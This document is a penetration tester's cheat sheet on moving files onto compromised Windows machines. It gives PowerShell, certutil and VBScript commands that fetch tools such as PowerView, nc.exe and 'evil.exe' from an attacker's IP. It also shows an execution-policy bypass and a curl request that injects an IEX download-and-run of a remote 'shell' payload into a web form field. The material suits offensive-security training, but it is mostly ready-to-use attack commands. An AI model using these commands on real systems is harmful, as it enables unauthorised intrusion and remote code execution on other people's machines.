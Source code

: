 # File Transfers in  Windows

- <https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/>
- <https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65>


### PowerShell

Valid PowerShell cmdlets/methods that can be used to download files:
- Invoke-WebRequest (iwr)
- Start-BitsTransfer
- system.Net.WebClient
- Invoke-RestMethod




















- `Invoke-WebRequest` (In Powershell `curl` is an alias for this command)
```
# get a website content, save it as xx.html (iwr is alias of Invoke-WebRequest)
iwr "google.com" -outfile xx.html


$url = "http://192.168.1.10/example.txt"
$destination = "C:\Downloads\example.txt"
Invoke-WebRequest -Uri $url -OutFile $destination

# Download using PowerShell's WebClient object
(new-object System.Net.WebClient).DownloadFile('http://[IP]/file.txt','dest/path/file.txt')
```

Fetch script from a webserver and load into memory
```
$pwv = (new-object System.Net.WebClient).DownloadString('http://[IP]/PowerView.ps1)
```


```
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
```










```
# use single quotes!
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```




If we want to download and execute a PowerShell script without saving it to disk, we can once again use the `System.Net.Webclient` class. This is done by combining the `DownloadString` method with the `Invoke-Expression` cmdlet (`IEX`).

Example:
```
curl -X POST --data 'Archive=git%3bIEX+(New-Object+System.Net.Webclient).DownloadString("http%3a//192.168.45.238/shell.pHP")' http://192.168.245.189:8000/archive
```


Another option is make it a script:
```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```







### CMD
```
certutil -urlcache -f http://[IP]/[FILENAME] [DEST FILENAME]


certutil -urlcache -split -f http://192.168.1.2/putty.exe

```




### VBScript
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```


Then run `cscript wget.vbs http://ip-addr:port/file output-file`





